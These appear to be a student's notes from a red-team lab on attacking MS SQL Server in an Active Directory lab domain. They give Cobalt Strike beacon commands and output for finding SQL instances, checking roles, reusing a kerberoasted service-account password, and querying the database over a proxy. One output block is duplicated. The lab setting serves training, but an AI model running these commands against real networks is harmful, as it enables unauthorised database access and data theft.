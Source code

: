 Microsoft SQL Server is a relational database management system commonly found in Windows environments. They’re typically used to store information to support a myriad of business functions. In addition to the obvious data theft opportunities, they also have a large attack surface, allowing code execution, privilege escalation, lateral movement and persistence.

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and [SQLRecon](https://github.com/skahwah/SQLRecon) are excellent tools for enumerating and interacting with MS SQL Servers.

PowerUpSQL has a few cmdlets available for finding MS SQL Servers, including `Get-SQLInstanceDomain`, `Get-SQLInstanceBroadcast` and `Get-SQLInstanceScanUDP`.

## Must Import PowerUpSQL.ps1 in every instance beacon!!!!
```cobaltstrike
beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
beacon> powershell Get-SQLInstanceDomain

ComputerName     : sql-2.dev.cyberbotic.io
Instance         : sql-2.dev.cyberbotic.io,1433
DomainAccountSid : 1500000521000672332383313895871914512914091400
DomainAccount    : mssql_svc
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/sql-2.dev.cyberbotic.io:1433
LastLogon        : 8/15/2022 7:55 PM
Description      :
```

`Get-SQLInstanceDomain` works by searching for SPNs that begin with _MSSQL*_.  This output shows that SQL-2 is running an instance of MS SQL server, under the context of the `mssql_svc` domain account.  You may also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

`Get-SQLConnectionTest` can be used to test whether or not we can connect to the database.

```powershell
beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl

ComputerName : sql-2.dev.cyberbotic.io
Instance     : sql-2.dev.cyberbotic.io,1433
Status       : Accessible
```
Then use `Get-SQLServerInfo` to gather more information about the instance.
```powershell
beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

ComputerName           : sql-2.dev.cyberbotic.io
Instance               : SQL-2
DomainName             : DEV
ServiceProcessID       : 2668
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\mssql_svc
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 15.0.2000.5
SQLServerMajorVersion  : 2019
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : No
ActiveSessions         : 1
```

```powershell
beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

ComputerName           : sql-2.dev.cyberbotic.io
Instance               : SQL-2
DomainName             : DEV
ServiceProcessID       : 2668
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\mssql_svc
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 15.0.2000.5
SQLServerMajorVersion  : 2019
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : No
ActiveSessions         : 1
```
  If there are multiple SQL Servers available, you can chain these commands together to automate the data collection.  
```bash
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
This output shows that whilst the database is accessible, our current user, bfarmer, is not a sysadmin.  SQLRecon has a nice module which can show us what roles we do have.
```bash
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m whoami

[+] Logged in as: 
DEV\bfarmer

[+] Mapped to the user: 
guest

[+] Roles: 
User is a member of public role
User is NOT a member of db_owner role
User is NOT a member of db_accessadmin role
User is NOT a member of db_securityadmin role
User is NOT a member of db_ddladmin role
User is NOT a member of db_backupoperator role
User is NOT a member of db_datareader role
User is NOT a member of db_datawriter role
User is NOT a member of db_denydatareader role
User is NOT a member of db_denydatawriter role
User is NOT a member of sysadmin role
User is NOT a member of setupadmin role
User is NOT a member of serveradmin role
User is NOT a member of securityadmin role
User is NOT a member of processadmin role
User is NOT a member of diskadmin role
User is NOT a member of dbcreator role
User is NOT a member of bulkadmin role
```
On default installations, standard users do not have this "public" role by default and must be explicitly granted through [SQL Server Manager Studio](https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms) (SSMS).  The aforementioned information on a SQL instance cannot be enumerated if the user's security context does not have a valid role.
![[Pasted image 20230816132046.png]]
Finding a user (or group) that does have access can be challenging, because without the ability to query the SQL instance to ask it, you can be stuck guessing.  One port of call is to look for appropriately names domain groups and their members.
- this did not work for me
```bash
beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }

GroupName     MemberName
---------     ----------
MS SQL Admins jking
```
"MS SQL Admins" clearly implies that jking may be a sysadmin.  Impersonating the user confirms the hypothesis.
```bash
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m whoami

[+] Logged in as: 
DEV\jking

[+] Mapped to the user: 
dbo

[+] Roles: 
User is a member of public role
User is a member of sysadmin role
User is a member of setupadmin role
User is a member of serveradmin role
User is a member of securityadmin role
User is a member of processadmin role
User is a member of diskadmin role
User is a member of dbcreator role
User is a member of bulkadmin role
```
Another option is to go after the MS SQL service account itself as this is also often given sysadmin privileges.  This assumption is the basis of BloodHound's SQLAdmin attack path.  We know that the domain account being used to run the service is `DEV\mssql_svc` and that the account is kerberoastable owing to its SPN.

If we can crack its plaintext password, we can use it to gain access to the SQL instance.
- these credentials were cracked in the kerberoastable section.
```bash
beacon> make_token DEV\mssql_svc Cyberb0tic
[+] Impersonated DEV\bfarmer

beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m whoami

[+] Logged in as: 
DEV\mssql_svc

[+] Mapped to the user: 
dbo

[+] Roles: 
User is a member of public role
User is a member of sysadmin role
User is a member of setupadmin role
User is a member of serveradmin role
User is a member of securityadmin role
User is a member of processadmin role
User is a member of diskadmin role
User is a member of dbcreator role
User is a member of bulkadmin role
```
Once we have access, there are several options for issuing queries against a SQL instance.  `Get-SQLQuery` from PowerUpSQL:
```bash
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SQL-2
```
SQLRecon.exe example:
```bash
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m query -o "select @@servername"

[+] Executing: select @@servername on sql-2.dev.cyberbotic.io,1433:

column0 | 
----------
SQL-2 |
```
`mssqlclient.py` from Impacket via proxychains:
```bash
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.25:1433-<><>-OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL-2): Line 1: Changed database context to 'master'.
[*] INFO(SQL-2): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands

SQL> select @@servername;

--------------------------------------------------------------------------------------------------------------------------------

SQL-2
```

Or a Windows SQL GUI, such as [HeidiSQL](https://www.heidisql.com/) [](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)via Proxifier:
![[Pasted image 20230816140135.png]]
